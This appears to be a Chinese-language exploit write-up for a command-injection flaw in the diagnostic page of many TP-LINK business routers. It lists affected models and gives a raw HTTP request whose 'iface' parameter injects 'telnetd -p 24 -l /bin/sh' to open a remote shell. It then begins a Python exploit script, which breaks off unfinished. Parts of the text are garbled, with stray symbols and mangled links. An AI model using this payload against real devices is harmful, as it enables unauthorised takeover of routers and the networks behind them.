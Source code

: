TP-LINK TL-R478G
TP-LINK TL-R478+
TP-LINK TL-R478
TP-LINK TL-R473GP-AC
TP-LINK TL-R473P-AC
TP-LINK TL-R473G
TP-LINK TL-R473
TP-LINK TL-R4299G
TP-LINK TL-R4239G
TP-LINK TL-R4149G
TP-LINK TL-R488
TP-LINK TL-R483
TP-LINK TL-R483G
TP-LINK TL-R479GP-AC
TP-LINK TL-R479GPE-AC

## 三、复现过程

```
POST /cgi-bin/luci/;stok=ea2178b4514da7ae227f4ec192536930/admin/diagnostic?form=diag HTTP/1.1
Host: 0-sec.org
Content-Length: 370
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://192.168.3.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.3.1/webpages/index.html
Accept-Encoding: gzip, deflate
Cookie: sysauth=be9b6f2b4b9a76a8a658e108c6197f2c
Connection: close `data=%7B%22method%22%3A%22start%22%2C%22params%22%3A%7B%22type%22%3A%220%22%2C%22type_hidden%22%3A%220%22%2C%22ipaddr_ping%22%3A%[22baidu.com](http://22baidu.com)%22%2C%22iface_ping%22%3A%22WAN1%22%2C%22ipaddr%22%3A%[22baidu.com](http://22baidu.com)%22%2C%22iface%22%3A%22%3Btelnetd±p+24±l+/bin/sh%22%2C%22count%22%3A%221%22%2C%22pktsize%22%3A%2264%22%2C%22my_result%22%3A%22The+Router+is+ready.%5Cr%5Cn%22%7D%7D` 
```

### 漏洞脚本

```
# Tested product: TL-WVR450L
# Hardware version：V1.0
# Firmware version: 20161125
# The RSA_Encryption_For_Tplink.js is use for Rsa Encryption to the password when login the web manager.
# You can download the RSA_Encryption_For_Tplink.js by https://github.com/coincoin7/Wireless-Router-Vulnerability/blob/master/RSA_Encryption_For_Tplink.js

import execjs

import requests

import json

import urllib

def read_js():

file = open("./RSA_Encryption_For_Tplink.js", ‘r’)

line = file.readline()

js = ‘’
```